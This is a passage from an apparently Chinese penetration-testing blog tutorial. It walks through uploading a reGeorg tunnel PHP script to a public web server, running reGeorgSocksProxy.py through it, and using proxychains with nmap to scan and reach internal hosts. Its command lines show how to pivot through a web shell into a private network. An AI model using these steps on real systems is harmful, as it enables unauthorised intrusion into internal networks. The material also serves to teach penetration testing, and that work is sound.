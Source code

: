 

![](https://img-blog.csdnimg.cn/20181127224715632.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



根据公网服务器网站是哪种脚本类型上传哪种类型的脚本，这里我搭建的是php环境，所以上传php脚本



![](https://img-blog.csdnimg.cn/20181127224837718.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



然后，我们在浏览器访问我们上传的 php 脚本，上传路径我们一定得知道，这里我直接上传到网站根目录了。如果看到下面的Georg says, 'All seems fine' 表示一切正常！ 



![](https://img-blog.csdnimg.cn/20181127222135119.png)



然后我们在攻击机上执行如下语句



```
python reGeorgSocksProxy.py -l 0.0.0.0 -p 1080 -u http://100.100.10.12/tunnel.nosocket.php  #表示本地1080端口的流量都转发给指定的那个url       
然后配置proxychains代理链的配置文件/etc/proxychains.conf ，将代理设置成本机的1080端口：socks5 127.0.0.1 1080       
然后命令前面加上 proxychains即可。如：proxychains curl 192.168.10.19       
所以我们流量的走向是： 流量->本地1080端口->web服务器的80端口(通过我们上传的php文件进行流量转发)->内网服务器->web服务器的80端口->本地1080端口
```




 ![](https://img-blog.csdnimg.cn/20190601185843916.png)



![](https://img-blog.csdnimg.cn/20181127225059882.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



 如图，可以看到我们已经可以访问内网的Web服务器。那么，我们就可以进一步渗透了！ 



![](https://img-blog.csdnimg.cn/20181127222654863.png)



这里需要主要，使用nmap程序时应该注意的点



```
#不能使用nmap默认的扫描方式，不能使用-A -T4参数      
proxychains nmap -Pn -sT -p 1-10000 -v 192.168.10.19       
proxychains-ng的安装：      
wget http://springdale.math.ias.edu/data/puias/unsupported/7/x86_64/proxychains-ng-4.11-1.sdl7.x86_64.rpm      
yum install proxychains-ng-4.11-1.sdl7.x86_64.rpm
```
